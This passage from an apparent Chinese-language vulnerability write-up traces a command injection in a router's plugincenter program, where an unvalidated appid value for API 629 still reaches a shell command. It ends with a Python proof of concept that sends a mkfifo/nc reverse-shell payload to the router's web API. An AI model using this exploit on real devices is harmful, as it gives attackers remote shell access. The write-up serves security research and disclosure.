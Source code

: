 ![](https://bbs.kanxue.com/upload/attach/202405/949925_6MCFS2S8HMQ54BT.webp)  
   
在`DataCenterHandler::request`函数中，在调用`APIMapping::APIMapping`函数建立好上述的映射关系表后，紧接着调用了`APIMapping::redirectRequest`函数。其中，先获取了`Json`对象中的`api`字段的值，存放在`v8`变量中，然后经历了一个`for`循环，其中有对`v8`值的判断比较，最后执行了一个函数指针。这里需要稍微解释一下，此处的`a1`就是上面建立的`map`映射表，类型是`std::map<int,void (*)(json_object *,std::string &)>`，即第一个元素（键值）是整数，第二个元素（实值）是函数指针。所以此处的`for`循环就是对`map`的操作，但是都是用的偏移值，不好看出来具体是什么，其实这里也没必要去查源码，我们直接自己写一个`map`容器的遍历，然后静态编译出来，反编译后这些偏移值的含义也就都清楚了。此处的`for`循环其实就是执行了`map.find()`的操作，寻找了`map`中`key`为`v8`（即`api`值）的迭代器，偏移`+32`就是第一个键值元素（`api`值），偏移`+40`则是第二个实值元素（`handler`的函数指针）。显然，此处就是根据传入的`api`字段值调用对应的`handler`的过程。到这里，上述建立的`Mapping Table`中的映射关系也更加明朗了。

![](https://bbs.kanxue.com/upload/attach/202405/949925_C8983JF7FWEH9V2.webp)  
   
上文说过，当`api`为`629`时，传入的`payload`字段的数据会被转发给`plugincenter`程序处理。所以最后来到了`/usr/sbin/plugincenter`程序中，找到`datacenter::PluginApiMappingExtendCollection::sConstructMappingTable`函数，仍然是通过`map`建立了`api`编号和对应`handler`函数的映射关系。可以看到，当`api`编号为`629`的时候，会执行到`parseGetIdForVendor`函数进行处理。

![](https://bbs.kanxue.com/upload/attach/202405/949925_85ZQ87PDWVNFHT8.webp)  
   
在`parseGetIdForVendor`函数中，会将传入的`Json`数据内的`appid`字段作为参数传递到`PluginApi::getIdForVendor`函数中。

![](https://bbs.kanxue.com/upload/attach/202405/949925_ZG7JNPRDV2E42PY.webp)  
   
在`PluginApi::getIdForVendor`函数中，可以很明显地发现：**即使`appid`字段合法性检查不通过，也会被拼接入命令中并执行**。显然，这里是一个开发上的疏忽，在判断`!IsValidAppId`的条件分支内，在输出报错信息后，应当在最后加上`return ;`返回，不能继续执行下去。

![](https://bbs.kanxue.com/upload/attach/202405/949925_8FF3CCCTEN4G28E.webp)

因此，这里存在一个命令注入漏洞，该漏洞调用链至此分析完毕。

PoC 及演示结果
---------

这里需要自行更改一下相关`IP`和`Token`值，此处注入了反弹`shell`的命令，端口`8888`。

```
import requests
 
server_ip = "192.168.50.1"
client_ip = "192.168.50.105"
token = "814c55713043e7358d3c1f42f2a98438"
 
nc_shell = ";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} 8888 >/tmp/f;".format(client_ip)
 
res = requests.post("http://{}/cgi-bin/luci/;stok={}/api/xqdatacenter/request".format(server_ip, token), data={'payload':'{"api":629, "appid":"' + nc_shell + '"}'})
 
print(res.text)

```

![](https://bbs.kanxue.com/upload/attach/202405/949925_RGE9GXZK2AWHXNV.webp)

写在最后
----
